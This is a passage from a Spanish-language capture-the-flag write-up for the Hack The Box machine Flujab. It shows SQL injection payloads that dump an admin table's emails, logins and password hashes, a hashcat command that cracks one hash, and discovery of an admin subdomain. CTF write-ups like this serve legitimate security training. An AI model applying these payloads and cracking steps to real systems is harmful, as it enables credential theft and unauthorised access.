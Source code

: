 ```null
nhsnum='union+select+1,2,group_concat(column_name),4,5+from+information_schema.columns+where+table_schema%3d'vaccinations'+and+table_name%3d'admin'--+-&submit=Cancel+Appointment
```

```null
b'Subject: Flu Jab Appointment - Ref:id,loginname,namelc,email,access,created,modified,modifiedby,password,passwordchanged,superuser,disabled,privileges'
```

Seleciono los correos, con los usuarios y contraseñas

```null
nhsnum='union+select+1,2,group_concat(email,':',loginname,':',password),4,5+from+admin--+-&submit=Cancel+Appointment
```

```null
b'Subject: Flu Jab Appointment - Ref:syadmin@flujab.htb:sysadm:a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602'
```

Pruebo a crackear el hash con ```hascat```

```null
hashcat -m 1400 hash /usr/share/wordlists/rockyou.txt --show
a3e30cce47580888f1f185798aca22ff10be617f4a982d67643bb56448508602:th3doct0r
```

No me puedo conectar por SSH

```null
ssh sysadm@10.10.10.124
kex_exchange_identification: read: Connection reset by peer
Connection reset by 10.10.10.124 port 22
```

En la anterior tabla había una columna llamada ```access```

```null
nhsnum='union+select+1,2,group_concat(access),4,5+from+admin--+-&submit=Cancel+Appointment
```

```null
b'Subject: Flu Jab Appointment - Ref:sysadmin-console-01.flujab.htb'
```

Agrego este nuevo subdominio al ```/etc/hosts```. Es válido por el puerto 8080

<img src="/writeups/assets/img/Flujab-htb/21.png" alt="">
